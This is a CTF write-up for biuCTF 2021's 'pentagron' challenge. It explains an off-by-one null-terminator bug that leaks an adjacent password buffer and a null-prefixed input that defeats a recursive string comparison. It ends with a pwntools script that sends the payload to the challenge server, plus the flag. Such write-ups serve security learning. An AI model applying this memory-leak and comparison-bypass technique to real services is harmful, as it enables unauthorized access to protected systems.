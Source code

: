 # pentagron - biuCTF 2021

Let's connect to the server. We neet to enter a secret password to get get the flag. The server requests the password twice.
Now let's view the source code, the program gets the first input by:
```C
char secret[17];
char buf[16];
//load the password from the secret file!

char * line = NULL;
size_t len = 0;
ssize_t read;

FILE * fp = fopen("password.txt", "r");
fgets(secret_pass, 17, fp);
fclose(fp);
printf("Welcome to the Pentagon Network!\n");
printf("Please enter the secret passwword to continue:");
fgets(big_buf, 100, stdin);
// remove newline
big_buf[strcspn(big_buf, "\n")] = 0;
if(strlen(big_buf)>16){
    printf("Too many bytes entered!\n");
    exit(0);
}
sscanf(big_buf,"%16s",buf); 
strcpy(secret, secret_pass);
printf("You tried to log in with %s\n", buf);
```
The important thing to notice here is that we are limited to input of 16 characters, but the size of the buffer where our input is saved in is 16 charcters. Meaning that if we give input of 16 characters, the null byte will be at ```buf[17]```, which is ```secret[0]``` (```buf``` is located exactly after ```secret```). Since the password is copied to before the user input is copied, if we'll give a 16-char input, like ```AAAAAAAAAAAAAAAA```, the stack will look like this:
```
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| buf |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   | secret |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   |    |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| A   | A | A | A | A | A | A | A | A | A | A | A | A | A | A | A |   X    | X | X | X | X | X | X | X | X | X | X | X | X | X | X | X | \0 |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
```
Where the x's are the secret password.
Let's try it:
```
Please enter the secret passwword to continue:AAAAAAAAAAAAAAAA
You tried to log in with AAAAAAAAAAAAAAAAsecreT_p4sssw0rd
lol what a noob. I'm nice so here's another try. Even though I don't think you'll succeed :)
```
So we know the password is secreT_p4sssw0rd! But just giving it as an input will not work because of the bug that overrides the input null byte.

Here is how the program gets the second input:
```C
sscanf(big_buf,"%16s",buf); 
strcpy(secret, secret_pass);
printf("You tried to log in with %s\n", buf);

if (super_secure_compare(buf, secret,16) == 0) {
    puts("Wow! how did u do it??\n");
    printf("here's the flag!\n");
    printFlag();
}
```
Now we write to buf after the password is already there. So if we give ```AAAAAAAAAAAAAAAA``` as an input the stack will look like:
````
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| buf |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   | secret |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   |    |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| A   | A | A | A | A | A | A | A | A | A | A | A | A | A | A | A |   \0   | e | c | r | e | T | _ | p | 4 | s | s | s | w | 0 | r | d | \0 |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+

````
So if we give input that starts with ```\0```, ```strlen(buf, secret)``` will return 0. But the program comares them using ```super_secure_compare```:
```C
int super_secure_compare(char* str1, char* str2,int size) {
	//let's compare N times the strings and its substrings, just to be certain!
	if (size == 0)
		return 0;
	return strcmp(str1, str2) || super_secure_compare(str1 + 1, str2 + 1, size - 1);
}
```
Because of this, we need to make sure not only ```buf``` and ```secret``` points to the same string, but also ```buf+i``` and ```secret+i``` will points to the same string for every i from 0 to 15.
Giving ```\0ecreT_p4sssw0rd``` as an input will do the work.
Here is python script to get the flag:
```python
from pwn import *

r = remote('34.118.43.143', 3000)
r.recvuntil('continue:')
r.sendline('A'*16)
r.recvuntil('ord:')
r.sendline('\0ecreT_p4sssw0rd')
print(r.recvall())
```
And we got it!
```
biuCTF{hex4gons_4_de_w1n}
```
